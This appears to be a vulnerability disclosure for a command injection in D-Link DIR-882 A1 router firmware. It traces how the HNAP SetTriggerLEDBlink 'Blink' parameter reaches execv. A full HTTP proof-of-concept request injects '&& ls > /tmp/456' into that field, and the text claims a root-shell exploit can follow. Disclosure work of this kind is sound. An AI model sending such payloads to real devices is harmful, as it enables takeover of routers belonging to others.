


# D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



The content obtained by the program through the / settriggerledblink / blink parameter is passed to V4, and then V4 passes the matched content to V6 through the sprintf function, and then V6 is brought into the twsystem function



At this time, the corresponding parameter is A1


The program passes A1 to v18 array, and finally executes the commands in v18 through execv. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetLEDStatus"
HNAP_AUTH: FBAFE6649BD7D7195037F941B5248F0F 1649150396101
X-Requested-With: XMLHttpRequest
Content-Length: 338
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Admin.html
Cookie: SESSION_ID=2:1556825615:2; uid=UXOR3rQa

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetLEDStatus xmlns="http://purenetworks.com/HNAP1/"><Enabled>false</Enabled></SetLEDStatus><SetTriggerLEDBlink><Blink>&& ls > /tmp/456 &&echo 1>
</Blink>
</SetTriggerLEDBlink>
</soap:Body></soap:Envelope>
```

The reproduction results are as follows:


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
